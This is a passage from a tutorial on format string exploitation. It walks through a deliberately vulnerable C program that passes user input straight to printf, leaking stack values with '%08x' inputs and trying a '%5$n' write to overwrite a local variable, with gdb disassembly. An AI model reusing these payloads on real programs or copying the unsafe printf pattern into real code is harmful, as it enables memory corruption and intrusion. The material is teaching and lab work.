 As we can see the length of the two strings is accumulated in the `x`
variable. This is an important fact that we will use below to write
huge numbers.

But first, let's start with a simple example. Here we have an integer
an a variable that references our integer (`i_ptr`) located in the
stack, so even if it is not passed as argument to `printf`, we know we
can access to it:
```c
// fsv-write-local.c
#include <stdio.h>

void main(int argc, char** argv) {
  int i = 1337;
  int* i_ptr = &i;

  printf(argv[1]);
  printf("\n");

  printf("i = %d\n", i);
  if (i == 42) {
    printf("You got it!!\n");
  }
}
```

We compile this program with:
```sh
gcc -m32 fsv-write-local.c -o fsv-write-local
```

And the same as previous examples, we starting by printing the values
in stack:
```sh
$ ./fsv-write-local $(perl -e 'print "%08x|"x8')
f7f587db|f7d19a4f|565a01c4|ff92afd0|f7f40688|00000539|ff92af98|ff92afc0|
i = 1337
```

We can locate the value 0x539 (1337) in the sixth position, so we can guess the
previous position is occupied by the `i_ptr` variable. Thus, we can try to provide
a format string that includes 42 characters and then the `%5$n` conversion, that
allow us to access directly to the position in the stack we want:
```sh
$ ./fsv-write-local $(perl -e 'print "A" x 42 . "%5\$n"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
i = 1337
```

But (in my case) it doesn't work! Why? Let's inspect the code
with *gdb*:
```sh
$ gdb -q fsv-write-local \
    -ex "set pagination off" \
    -ex "set disassembly-flavor intel" \
    -ex "disassemble main" -ex "q"
Reading symbols from fsv-write-local...
(No debugging symbols found in fsv-write-local)
Dump of assembler code for function main:
...stripped....
   0x000011cc <+31>:	mov    DWORD PTR [ebp-0x10],0x539
   0x000011d3 <+38>:	lea    edx,[ebp-0x10]
   0x000011d6 <+41>:	mov    DWORD PTR [ebp-0xc],edx
...stripped....
End of assembler dump.
```
